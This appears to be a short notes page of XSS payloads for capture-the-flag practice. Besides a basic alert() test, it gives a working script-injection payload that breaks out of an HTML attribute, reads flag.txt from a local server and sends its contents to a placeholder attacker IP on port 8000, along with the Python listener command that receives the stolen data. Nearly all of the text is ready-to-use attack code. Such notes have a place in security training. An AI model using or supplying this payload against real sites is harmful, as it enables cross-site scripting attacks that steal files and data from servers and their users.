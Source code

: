 
```
<script type=’text/javascript’>alert(‘test’);</script>
```

o


to be sorted

this payloads sends a specific file(in this case flag.txt) to a python server on your host machine running on port 8000
```
'"><script>fetch('http://127.0.0.1:8080/flag.txt')  
    .then(response => response.text())  
    .then(data => {  
      fetch('http://<YOUR-IP-ADDRESS-tun0>:8000/?flag=' + encodeURIComponent(data));  
    });  
</script>
```
example of paired python server
```
python -m http.server 8000
```
you should receive the contents of the file on you python server if the payload worked correctly